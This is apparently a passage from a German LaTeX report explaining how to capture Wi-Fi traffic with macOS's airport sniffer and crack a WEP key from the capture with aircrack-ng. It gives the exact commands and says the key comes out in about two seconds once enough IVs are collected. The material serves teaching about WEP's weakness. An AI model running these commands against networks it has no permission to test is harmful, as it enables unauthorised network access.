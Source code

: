 
Der Sniffer kann auch direkt über die Kommandozeile ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
sudo airport en0 sniff <CHANNEL>
\end{lstlisting}

Anschliessend können die Daten, vom \textit{Sniffer} mit dem \textit{aircrack-ng} ausgewertet werden:
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng -b 00:0f:cc:b0:1a:c8 /private/tmp/airportSniff*.cap
\end{lstlisting}

So wird einem, falls genügend \gls{ivLabel}'s vorhanden sind, der \gls{wepLabel} ausgegeben (Dauer: 2 Sek.).
\begin{figure}[H]
	\centering
	\includegraphics[width=1.0\textwidth]{images/wep/aircrack-ng.png}
	\caption{aircrack-ng -- Terminalausgabe}
\end{figure}
